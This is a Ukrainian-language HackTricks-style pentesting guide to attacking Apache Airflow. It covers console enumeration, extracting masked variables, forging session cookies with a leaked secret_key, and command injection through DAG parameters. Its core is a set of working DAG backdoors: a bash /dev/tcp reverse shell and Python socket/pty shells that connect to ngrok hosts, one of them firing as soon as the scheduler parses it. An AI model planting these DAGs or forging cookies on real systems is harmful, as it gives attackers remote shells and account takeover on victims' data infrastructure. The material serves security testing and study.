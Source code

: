 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### Основна інформація

[**Apache Airflow**](https://airflow.apache.org) слугує платформою для **орchestrating and scheduling data pipelines or workflows**. Термін "орchestrating" у контексті data pipelines означає процес організації, координації та управління складними data workflows, що походять з різних джерел. Основна мета цих оркестрованих data pipelines полягає в наданні оброблених і споживаних наборів даних. Ці набори даних широко використовуються безліччю додатків, включаючи, але не обмежуючись, інструментами бізнес-аналітики, моделями data science та machine learning, які є основою функціонування додатків великого обсягу даних.

В основному, Apache Airflow дозволить вам **планувати виконання коду, коли щось** (подія, cron) **відбувається**.

### Локальна лабораторія

#### Docker-Compose

Ви можете використовувати **docker-compose config file from** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) для запуску повного середовища apache airflow в docker. (Якщо ви на MacOS, переконайтеся, що виділили принаймні 6 ГБ оперативної пам'яті для docker VM).

#### Minikube

Один із простих способів **запустити apache airflow** - це запустити його **з minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Налаштування Airflow

Airflow може зберігати **чутливу інформацію** у своїй конфігурації або ви можете знайти слабкі конфігурації:

{{#ref}}
airflow-configuration.md
{{#endref}}

### RBAC Airflow

Перед початком атаки на Airflow ви повинні зрозуміти, **як працюють дозволи**:

{{#ref}}
airflow-rbac.md
{{#endref}}

### Атаки

#### Перерахування веб-консолі

Якщо у вас є **доступ до веб-консолі**, ви можете отримати доступ до деякої або всієї наступної інформації:

- **Змінні** (Користувацька чутлива інформація може зберігатися тут)
- **З'єднання** (Користувацька чутлива інформація може зберігатися тут)
- Доступ до них за адресою `http://<airflow>/connection/list/`
- [**Конфігурація**](./#airflow-configuration) (Чутлива інформація, така як **`secret_key`** та паролі, може зберігатися тут)
- Список **користувачів та ролей**
- **Код кожного DAG** (який може містити цікаву інформацію)

#### Отримання значень змінних

Змінні можуть зберігатися в Airflow, щоб **DAG** могли **отримувати** їх значення. Це схоже на секрети інших платформ. Якщо у вас є **достатні дозволи**, ви можете отримати доступ до них у GUI за адресою `http://<airflow>/variable/list/`.\
Airflow за замовчуванням покаже значення змінної в GUI, однак, відповідно до [**цього**](https://marclamberti.com/blog/variables-with-apache-airflow/), можливо, встановити **список змінних**, значення яких з'являться як **зірочки** в **GUI**.

![](<../../images/image (164).png>)

Однак ці **значення** все ще можна **отримати** через **CLI** (вам потрібно мати доступ до БД), **виконання довільного DAG**, **API** для доступу до кінцевої точки змінних (API потрібно активувати) і **навіть сам GUI!**\
Щоб отримати доступ до цих значень з GUI, просто **виберіть змінні**, до яких ви хочете отримати доступ, і **натисніть на Дії -> Експортувати**.\
Інший спосіб - виконати **брутфорс** для **прихованого значення**, використовуючи **фільтрацію пошуку**, поки ви його не отримаєте:

![](<../../images/image (152).png>)

#### Підвищення привілеїв

Якщо конфігурація **`expose_config`** встановлена на **True**, з **ролі Користувач** і **вище** можна **читати** **конфігурацію в вебі**. У цій конфігурації з'являється **`secret_key`**, що означає, що будь-який користувач з цим дійсним ключем може **створити свій власний підписаний cookie, щоб видавати себе за будь-який інший обліковий запис користувача**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE в Airflow worker)

Якщо у вас є **доступ на запис** до місця, де **зберігаються DAG**, ви можете просто **створити один**, який надішле вам **реверсну оболонку.**\
Зверніть увагу, що ця реверсна оболонка буде виконуватися всередині **контейнера airflow worker**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE в Airflow scheduler)

Якщо ви налаштуєте щось на **виконання в корені коду**, на момент написання цього тексту, це буде **виконано планувальником** через кілька секунд після розміщення його в папці DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Створення DAG

Якщо вам вдасться **зламати машину всередині кластера DAG**, ви зможете створити нові **скрипти DAG** у папці `dags/`, і вони будуть **репліковані на решті машин** всередині кластера DAG.

#### Впровадження коду в DAG

Коли ви виконуєте DAG з GUI, ви можете **передавати аргументи** до нього.\
Отже, якщо DAG не правильно закодований, він може бути **вразливим до Command Injection.**\
Саме це сталося в цьому CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Все, що вам потрібно знати, щоб **почати шукати командні ін'єкції в DAG**, це те, що **параметри** **доступні** за допомогою коду **`dag_run.conf.get("param_name")`**.

Більше того, та ж вразливість може виникнути з **змінними** (зверніть увагу, що з достатніми привілеями ви могли б **контролювати значення змінних** в GUI). Змінні **доступні за допомогою**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Якщо вони використовуються, наприклад, всередині команди bash, ви можете виконати ін'єкцію команди.

{{#include ../../banners/hacktricks-training.md}}
